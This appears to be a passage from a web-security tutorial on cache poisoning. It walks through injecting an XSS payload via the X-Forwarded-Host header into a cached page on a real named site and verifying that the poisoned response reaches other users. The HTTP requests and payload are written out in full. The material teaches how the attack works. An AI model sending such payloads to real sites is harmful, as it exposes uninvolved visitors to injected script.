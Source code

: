 Here the `X-Forwarded-Host` header has been used by the application to generate an Open Graph URL inside a meta tag.
 The next step is to explore whether it's exploitable – start with a simple XSS payload:

```http request
GET /en?dontpoisoneveryone=1 HTTP/1.1
Host: www.redhat.com
X-Forwarded-Host: a."><script>alert(1)</script>

HTTP/1.1 200 OK
Cache-Control: public, no-cache
...
<meta property="og:image" content="https://a."><script>alert(1)</script>"/> 
```

That response will execute arbitrary JavaScript against whoever views it. Don't let the `Cache Control: no-cache` header
 dissuade you – it's always better to attempt an attack than assume it won't work.

The final step is to check if this response has been stored in a cache so that it'll be delivered to other users.
 You can verify this first by sending the request without the malicious header, and then by fetching the URL directly
 in a browser on a different machine:

```http request
GET /en?dontpoisoneveryone=1 HTTP/1.1
Host: www.redhat.com

HTTP/1.1 200 OK
...
<meta property="og:image" content="https://a."><script>alert(1)</script>"/>
```

> More examples: [Practical Web Cache Poisoning](https://portswigger.net/research/practical-web-cache-poisoning)

## References

- [HTTP caching](https://developer.mozilla.org/en-US/docs/Web/HTTP/Caching)
- [Cache-Control](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Cache-Control)
